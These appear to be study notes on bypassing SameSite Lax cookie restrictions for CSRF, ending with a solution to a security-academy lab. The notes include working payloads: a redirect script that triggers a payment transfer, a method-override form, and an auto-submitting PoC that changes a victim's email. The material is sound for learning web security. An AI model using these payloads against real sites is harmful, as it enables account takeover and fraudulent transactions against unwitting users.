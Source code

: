If you encounter a cookie set with SameSite=None or with no explicit restrictions, it's worth investigating whether it's of any use. When the "Lax-by-default" behavior was first adopted by Chrome, this had the side-effect of breaking a lot of existing web functionality. As a quick workaround, some websites have opted to simply disable SameSite restrictions on all cookies, including potentially sensitive ones.

When setting a cookie with SameSite=None, the website must also include the Secure attribute, which ensures that the cookie is only sent in encrypted messages over HTTPS. Otherwise, browsers will reject the cookie and it won't be set.
```
Set-Cookie: trackingId=0F8tgdOhi9ynR1M9wa3ODa; SameSite=None; Secure
```
### Bypassing SameSite Lax restrictions using GET requests

In practice, servers aren't always fussy about whether they receive a GET or POST request to a given endpoint, even those that are expecting a form submission. If they also use Lax restrictions for their session cookies, either explicitly or due to the browser default, you may still be able to perform a CSRF attack by eliciting a GET request from the victim's browser.

As long as the request involves a top-level navigation, the browser will still include the victim's session cookie. The following is one of the simplest approaches to launching such an attack:
```js
<script>
    document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000';
</script> 
```
Even if an ordinary GET request isn't allowed, some frameworks provide ways of overriding the method specified in the request line. For example, Symfony supports the _method parameter in forms, which takes precedence over the normal method for routing purposes:
```html
<form action="https://vulnerable-website.com/account/transfer-payment" method="POST">
    <input type="hidden" name="_method" value="GET">
    <input type="hidden" name="recipient" value="hacker">
    <input type="hidden" name="amount" value="1000000">
</form>
```
Other frameworks support a variety of similar parameters. 
### Lab: SameSite Lax bypass via method override

This lab's change email function is vulnerable to CSRF. To solve the lab, perform a CSRF attack that changes the victim's email address. You should use the provided exploit server to host your attack.

You can log in to your own account using the following credentials: wiener:peter 

I can override the method by adding the `_method` parameter to the query string:
```
GET /my-account/change-email?email=w@a&_method=POST HTTP/2
```
csrf poc:
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a20005e0308cd7180d8719d00cc008d.web-security-academy.net/my-account/change-email">
      <input type="hidden" name="email" value="long&#64;a" />
      <input type="hidden" name="&#95;method" value="POST" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```